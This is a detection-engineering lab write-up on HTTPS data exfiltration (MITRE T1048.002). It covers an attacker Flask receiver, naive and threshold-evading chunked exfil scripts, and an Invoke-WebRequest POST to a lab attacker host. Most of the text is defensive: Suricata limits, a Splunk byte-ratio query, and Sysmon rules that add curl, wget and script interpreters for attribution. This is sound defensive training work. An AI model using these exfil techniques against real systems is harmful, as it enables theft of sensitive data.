

# T1048.002 — Exfiltration Over Asymmetric Encrypted Non-C2 Protocol (HTTPS)

> **Primary:** T1048.002 Exfiltration Over Asymmetric Encrypted Non-C2 Protocol
> **Related:** T1048 Exfiltration Over Alternative Protocol
> **Tooling:** Python `requests` / PowerShell `Invoke-WebRequest` → self-signed HTTPS server (Flask)
> **Telemetry:** Suricata 8.0.5 (`flow` / `eve.json`) + Sysmon EID 3 (process attribution)
> **Primary detection:** Splunk — asymmetric flow volume + time-window aggregation (no IOC)
> **Key finding:** volume-based exfil cannot be expressed as a Suricata signature; detection is a SIEM job. A second blind spot — the default Sysmon config does not log 443 or `python.exe` — had to be closed to attribute the process.

An attacker who has collected sensitive data needs to move it off the host. By POSTing the data over HTTPS to an attacker-controlled server, the traffic looks like ordinary encrypted web activity and passes most perimeter rules. Because the channel is TLS-encrypted, the *content* of what leaves is invisible. Detection therefore cannot read the data — it must rely on the **shape** of the traffic: a large, one-directional outbound flow that is the mirror image of normal browsing (where downloads dominate and uploads are tiny).

This scenario is the deliberate inverse of the C2 beaconing scenario: there the check-ins were small, regular, and symmetric; here the traffic is large, sustained, and heavily asymmetric — same protocol (HTTPS), opposite signature.

---

# A. Attack Phase

**Roles / topology (host-only network):**
- **Victim:** Windows — `192.168.56.1`, runs the exfil script (Sysmon installed)
- **Attacker server:** Kali — `192.168.56.102`, runs a self-signed HTTPS endpoint that ingests the data

### Step 1 — Attacker HTTPS receiver (Kali)

A self-signed certificate and a minimal Flask server that accepts a POST body and writes it to disk:

```bash
openssl req -x509 -newkey rsa:2048 -nodes -keyout key.pem -out cert.pem -days 365
sudo python3 server.py   # Flask, port 443, ssl_context=(cert.pem, key.pem)
```

The server prints the byte count of every chunk received — the ground truth for how much data actually left.

### Step 2 — Generate sensitive data (Windows)

A ~47 MB dummy file standing in for exfiltrated customer data:

```powershell
1..500000 | ForEach-Object { "Gizli Musteri Verisi, Kart No: 1234-5678-9012" } | Out-File hassas_veri.txt
```

### Step 3 — Two exfil variants

**Naive (single fast burst):** read the whole file, POST it in one shot. Run from `C:\Users\python`:

```powershell
python .\exfil_naive.py     # one large POST over HTTPS
```

**Slow / low-and-slow (chunked, session-persistent):** the same file split into 1 MB chunks, sent every 10 seconds over a single reused TLS session. This is built specifically to stay *under* any rate/volume threshold a fast-burst rule would use:

```powershell
python .\exfil_slow.py      # 1 MB chunk every 10s, persistent session
```

Both succeeded — the Kali server confirmed `200 - Data received` for each transfer.

---

# B. Network Detection Layer — Suricata, and Why It Is the Wrong Tool Here

The first instinct was a Suricata rule. This turned out to be the wrong tool for volume-based exfil, and *why* is the first lesson of this scenario.

A signature engine matches packets and stream content. It has **no keyword for "this flow uploaded more than 10 MB."** Byte counts (`bytes_toserver`) are written to the `flow` event only when the flow *closes* — they cannot be a rule condition, because at match time the flow is still open and the total is unknown. Several attempts confirmed this:

- A `dsize:>1200` rule never fired. In a reassembled TLS stream, individual packet payload sizes are not what a single `dsize` check expects — TLS records, ACKs and fragmentation mean most packets fall below the threshold.
- A bare `threshold` rule on port 443 either produced **108,000+ alerts** (one per packet — useless noise) or missed entirely, depending on the count/seconds values, because the transfer completed in `age: 0` seconds and the time-window counter could not bucket it meaningfully.

The honest conclusion: Suricata can flag *indirect* indicators (sustained large payloads, high connection rate) but cannot perform the byte-volume accounting that actually defines exfil. That accounting is a SIEM job. Suricata's real role in this scenario is what it does well — **emitting the `flow` telemetry** (per-flow `bytes_toserver` / `bytes_toclient`) that the SIEM then aggregates.

> This mirrors the C2 beaconing scenario, where Suricata could not measure check-in *timing* and the detection moved to Splunk. Same architectural boundary: signature engine for content, SIEM for volumetric and temporal analysis.

---

# C. Behavioral Detection Layer — Splunk (the real detection)

The detection is built on the one thing TLS cannot hide: the **direction and volume** of the traffic. Normal browsing has a ratio of bytes-out to bytes-in well below 1 (downloads dominate). Exfil inverts this completely.

The query aggregates Suricata `flow` events into hourly buckets — which also catches the slow variant, since chunking spreads the bytes over time but does not reduce the total:

```spl
index=main sourcetype=_json event_type=flow dest_port=443
| spath flow.bytes_toserver output=out
| spath flow.bytes_toclient output=in
| bin _time span=1h
| stats sum(out) as total_out, sum(in) as total_in, count as conns,
        min(_time) as first_seen, max(_time) as last_seen
        by _time src_ip dest_ip
| eval ratio = round(total_out/(total_in+1), 1)
| eval mb_out = round(total_out/1048576, 2)
| where total_out > 5242880 AND ratio > 10 AND conns >= 3
| eval verdict = "HTTPS EXFIL SUSPECT"
| sort - mb_out
| table _time src_ip dest_ip conns mb_out ratio verdict
```

Result:

| _time | src_ip | dest_ip | conns | mb_out | ratio | verdict |
|-------|--------|---------|-------|--------|-------|---------|
| 16:00 | 192.168.56.1 | 192.168.56.102 | 93 | 640.38 | 345.0 | HTTPS EXFIL SUSPECT |
| 15:00 | 192.168.56.1 | 192.168.56.102 | 46 | 78.50 | 226.5 | HTTPS EXFIL SUSPECT |

**What `ratio` measures:** bytes sent out divided by bytes received in (`total_out / total_in`). It captures the *direction* of the traffic. Normal web activity is download-dominated — a browser receives far more than it sends, so its ratio sits well below 1 (e.g. ~0.05, twenty times more down than up). Exfil is the mirror image: the host POSTs megabytes and the server replies with a tiny `200 OK`, so the ratio is enormous.

| Activity | ratio (out/in) |
|----------|----------------|
| Normal browsing | ~0.05 |
| Video streaming | ~0.01 |
| Legitimate upload (backup) | ~5–20 |
| **HTTPS exfil (this scenario)** | **345** |

A ratio of **345** — bytes out is 345× bytes in — is physically impossible for legitimate browsing; it is pure outbound transfer. The `where ratio > 10` filter even excludes most legitimate uploads (which receive a meaningful response), leaving only the heavily one-directional flows. The two design points that make this reliable:

- **Time-window aggregation (`bin _time span=1h`).** This is what catches the slow variant. The attacker sends 1 MB every 10s to dodge a per-flow threshold, but the *hourly sum* still explodes — the total data does not change, only its distribution over time. A per-flow rule (or a Suricata threshold) is blind to this; aggregation is not.
- **Ratio over raw volume.** Volume alone false-positives on legitimate large uploads (backups, video). The asymmetry ratio is what separates exfil from a legitimate upload that also receives a meaningful response.

This is detection without any IOC — no destination IP, hash, or signature is hard-coded. It answers *"is anything moving large volumes one-directionally outbound?"*, which holds against an unknown destination.

---

# D. Host Correlation Layer — Sysmon Process Attribution (and a config blind spot)

Network detection answers *what* (640 MB outbound, ratio 345). Production needs *who*: which process, run by which user. This is Sysmon EID 3 (network connection → process) joined to the network finding.

The join initially returned **empty** — and chasing why surfaced the second lesson of this scenario.

The host runs the **SwiftOnSecurity** Sysmon config, which logs network connections with `onmatch="include"` — i.e. only an explicit allow-list is logged, everything else is dropped, deliberately, to keep network logging high-signal. The config does **not** include port 443 (it is everywhere — logging it would flood the SIEM) and does **not** include `python.exe`. The Python exfil therefore matched neither filter and was never logged. This is a genuine detection blind spot: **HTTPS exfil via a script interpreter is invisible to the default config.**

The fix is process-based, not port-based — adding the missing interpreters/download tools to the include block:

```xml
<!-- HTTPS / data exfiltration - interpreters & download tools reaching out -->
<Image condition="image">python.exe</Image>
<Image condition="image">pythonw.exe</Image>
<Image condition="image">curl.exe</Image>
<Image condition="image">wget.exe</Image>
<Image condition="image">node.exe</Image>
<Image condition="image">pwsh.exe</Image>
```

Reloaded with `sysmon -c config.xml`. Crucially, **443 was deliberately not added as a port filter** — that would log every browser, OneDrive, and update connection and drown the SIEM. The correct lever is *who is connecting* (a script interpreter reaching outbound is rare and high-signal), not *what port* (443 is ubiquitous and noisy).

With that closed, the full query joins network volume to host process:

- [Splunk SPL](../Rules/Splunk-SPL/Exfiltration/https-exfiltration.spl) 👈


Result — the chain is complete, now with connection duration and the launching command line:

 👈


| _time | src_ip | dest_ip | conns | mb_out | ratio | longest_flow_sec | process_name | cmd_line | verdict |
|-------|--------|---------|-------|--------|-------|------------------|--------------|----------|---------|
| 21:00 | 192.168.56.1 | 192.168.56.102 | 24 | 86.18 | 346.4 | ... | powershell.exe | `... Invoke-WebRequest -Uri https://192.168.56.102/upload -Method POST ...` | HTTPS EXFIL SUSPECT |

Now the alert says not just "640 MB left the network" but "`powershell.exe`, launched with an `Invoke-WebRequest` POST to the C2, on `192.168.56.1` pushed it to `192.168.56.102:443`" — full host-plus-network attribution.

Two fields were added over the first version:

- **`cmd_line`** comes from EID 1 (ProcessCreate), not EID 3 (NetworkConnect) — EID 3 carries the process image and the connection, but the command line lives in EID 1. The inner `join` on `ProcessGuid` links the connecting process back to its creation event, recovering the exact invocation (e.g. `python exfil_naive.py` or the `Invoke-WebRequest` one-liner).
- **`longest_flow_sec`** (from `flow.age`) is the duration tell for the *slow* variant. The naive burst completes in ~1s, but the session-persistent slow exfil holds one TLS connection open across many 10-second chunks, so its longest flow runs for minutes — a duration anomaly that complements the volume signal.

> Note: the nested EID 3 → EID 1 join is fine in a lab but scales poorly on large data; in production this is better served by a CIM data model or `tstats` rather than raw subsearches.

---

# E. Limitations & Lessons

**1. Suricata is the wrong tool for volume-based exfil.**
A signature engine cannot do byte accounting (`bytes_toserver` is not a rule condition). It can only flag indirect proxies (sustained large payloads, high connection rate), which are noisy. Volume and asymmetry detection belong in the SIEM. This is a tool-fit lesson, not a failure.

**2. Default Sysmon network logging has an exfil-shaped hole.**
The SwiftOnSecurity config omits 443 and common script interpreters to stay high-signal. That same choice makes HTTPS-via-Python exfil invisible until the interpreters are explicitly added. The correct remediation is process-based (add `python`, `curl`, `wget`, `node`, `pwsh`), never port-based (adding 443 floods the SIEM with legitimate HTTPS). "Who is connecting" is higher signal than "what port."

**3. The behavioral detection needs tuning, not an IOC.**
The `ratio > 10` and `total_out > 5 MB` thresholds will false-positive on legitimate large uploads (cloud backup, media). In production these should be baselined and scoped (unexpected destinations, non-business hours, rare process/destination pairs) rather than alerting on any high-ratio flow.

**4. Encrypted payload means content is never available.**
Detection identifies the *shape and source* of the exfil, never the data itself. Attribution of what was stolen requires host-side DLP or file-access telemetry, outside this scenario's scope.

## Detection Summary

| Layer | Question answered | Tool | Outcome |
|-------|-------------------|------|---------|
| Network signature | Is there a known-bad pattern? | Suricata | Poor fit — cannot measure volume |
| Network behavior | Is anything moving large volumes outbound? | Splunk flow aggregation | ratio 345, 640 MB — clean detection (incl. slow variant) |
| Host correlation | Which process / user? | Sysmon EID 3 (after config fix) | `powershell.exe` attributed |